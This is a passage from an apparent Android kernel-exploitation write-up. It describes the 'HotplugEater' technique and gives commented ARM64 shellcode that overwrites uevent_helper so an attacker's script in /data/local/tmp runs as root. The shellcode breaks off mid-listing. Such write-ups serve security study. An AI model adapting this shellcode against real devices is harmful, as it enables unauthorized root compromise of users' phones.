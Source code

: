 ### HotplugEater Attack:
This presentation by dong-hoon you presented a technique he called the HotplugEater Attack. I have included the relevant slide below:

![hotplug_eater_slide](hotplug_eater_slide.png)

The idea is as follows:
- The global variable `uevent_helper` points to a script which the kernel uses on a hotplug event. 
- If we can overwrite this variable to an attacker controlled script, it will execute with root permissions.
- Simply changing the variable is enough to trigger the `kobject_uevent_env` function, which will in turn call our malicious script.

## Putting It All Together:
We can dump the address of `uevent_helper` with the Python script we used earlier. 
![uevent_helper](uevent_helper.png)

Our new exploit will now work as follows:
1. Create a script in `/data/local/tmp/` which we want to execute with root permissions
2. Trigger our overflow on `ftxxxx-debug` and ROP to our shellcode
3. The shellcode will overwrite `uevent_helper` with the path to our malcious script in `/data/local/tmp`, return to usermode, and gracefully exit (by way of segfaulting).
4. After ~10 seconds, the kernel will execute our script

With this in mind, we need to write some new shellcode which performs the actions outlined in point number 3. That shellcode has been included and commented below:

```asm
mov x2,  #0xc7c8          // move the address of `uevent_helper` into x2
movk x2, #0x00c2, lsl #16  
movk x2, #0xffc0, lsl #32  
movk x2, #0xffff, lsl #48  
  
mov w3, #'/'              // store the value `/data/local/tmp/cmd` byte by byte at x2 
strb w3, [x2]  
mov w3, #'d'  
strb w3, [x2, #1]  
mov w3, #'a'  
strb w3, [x2, #2]  
mov w3, #'t'  
strb w3, [x2, #3]  
mov w3, #'a'  
strb w3, [x2, #4]  
mov w3, #'/'  
strb w3, [x2, #5]  
mov w3, #'l'  
strb w3, [x2, #6]  
mov w3, #'o'  
strb w3, [x2, #7]  
mov w3, #'c'  
strb w3, [x2, #8]  
mov w3, #'a'  
strb w3, [x2, #9]  
mov w3, #'l'  
strb w3, [x2, #10]  
mov w3, #'/'  
strb w3, [x2, #11]  
mov w3, #'t'  
strb w3, [x2, #12]  
mov w3, #'m'  
strb w3, [x2, #13]  
mov w3, #'p'  
strb w3, [x2, #14]  
```